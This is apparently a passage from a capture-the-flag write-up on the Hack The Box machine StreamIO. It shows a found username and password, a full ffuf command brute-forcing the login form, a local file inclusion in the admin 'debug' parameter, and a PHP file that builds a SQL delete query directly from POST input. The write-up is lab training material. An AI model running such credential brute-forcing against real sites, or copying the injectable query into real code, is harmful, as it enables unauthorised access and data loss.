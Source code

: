 Credentials

```python
username: yoshihide
password: 66boysandgirls..

ffuf -X POST -u https://streamio.htb/login.php -d 'username=USERS&password=PASS' -w users.txt:USERS,passwords.txt:PASS -replay-proxy http://127.0.0.1:8080 -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.' -H 'Cookie: PHPSESSID=ivnq0iu0uqsesj4kvah9ftg22j' -H 'Content-Type: application/x-www-form-urlencoded' -fs 4207
```

Accessing admin panel with the credentials

Admin panel parameter fuzzing.

![Untitled](StreamIO/Untitled%2011.png)

The parameter “debug” is vulnerable to LFI 

![Untitled](StreamIO/Untitled%2012.png)

Fuzzing files on Windows machine

![Untitled](StreamIO/Untitled%2013.png)

Application PATH

![Untitled](StreamIO/Untitled%2014.png)

Filtered words

![Untitled](StreamIO/Untitled%2015.png)

Master PHP file.

```python
yr<h1>Movie managment</h1>
<?php
if(!defined('included'))
	die("Only accessable through includes");
if(isset($_POST['movie_id']))
{
$query = "delete from movies where id = ".$_POST['movie_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from movies order by movie";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

<div>
	<div class="form-control" style="height: 3rem;">
		<h4 style="float:left;"><?php echo $row['movie']; ?></h4>
		<div style="float:right;padding-right: 25px;">
			<form method="POST" action="?movie=">
				<input type="hidden" name="movie_id" value="<?php echo $row['id']; ?>">
				<input type="submit" class="btn btn-sm btn-primary" value="Delete">
			</form>
		</div>
	</div>
</div>
<?php
} # while end
?>
<br><hr><br>
```
